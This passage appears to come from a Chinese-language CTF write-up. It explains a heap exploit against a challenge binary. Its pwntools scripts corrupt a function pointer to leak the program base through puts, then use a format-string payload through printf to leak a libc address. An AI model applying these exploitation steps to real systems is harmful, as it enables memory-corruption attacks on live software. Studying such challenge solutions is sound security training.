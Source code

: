 ![IDA](https://cdn.novanoir.moe/img/image-20220712221215701.png)

```python
create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
create(0x20, b'a'*0x10 + b'b'*0x08 + b'\x7C' + b'\x00')
gdb_(1, 'b deleteStr')
delete(1)  # -> call _puts
```

可以看到，成功执行了`puts(ptr)`并计算出了程序基地址

![image-20220712221540664](https://cdn.novanoir.moe/img/image-20220712221540664.png)

![image-20220712221653582](https://cdn.novanoir.moe/img/image-20220712221653582.png)

但是如何泄露`libc_base`呢？这个时候我们实际上已经可以任意地址执行了，且第一个参数是可控的，因此我们可以很容易联想到使用*格式化字符串漏洞*来输出某个函数的地址然后来找`libc_base`

我使用的`printf`是`0x150E`这里的，要注意的是在`printf`之前把`eax`置零了，因为会执行`printf+7`的`test al, al`，如果`al`不为0则`printf+34`的`je`不会跳转，接着就会执行一个`movaps`的指令要求16位对齐，否则就会段错误。而这里对齐与否是我们（至少是我）所不能决定的。

> 大概可以通过重新布局内存来达到对齐，然后打`DynELF`，但是我看他们的那个 wp 没时候没复现成功，重新`create`之后还是没有对齐。

![image-20220712221905504](https://cdn.novanoir.moe/img/image-20220712221905504.png)

至于格式化字符串怎么构造呢？在`printf`这里下个断点就知道了。

```python
create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
create(0x20, b'a'*0x10 + b'b'*0x08 + b'\x7C' + b'\x00')
delete(1)  # -> call _puts
sh.recvuntil(b"b"*0x08)
proc_base = u64(sh.recvline()[:-1].ljust(8, b'\x00')) - 0x147C
print(hex(proc_base))
printf = proc_base + 0x150E
delete(0)

create(0x20, b'Nova%17$pNoir' + b'b'*(0x18-len(b'Nova%17$pNoir')) + p64(printf))  # 这里我已经构造好了捏
gdb_(1)
delete(1)
sh.recvuntil(b"Nova")

printf_addr = sh.recvuntil(b"Noir", drop=True)
printf_addr = int(printf_addr, 16) - 153
print(">>>", hex(printf_addr))
```

![image-20220712222519598](https://cdn.novanoir.moe/img/image-20220712222519598.png)
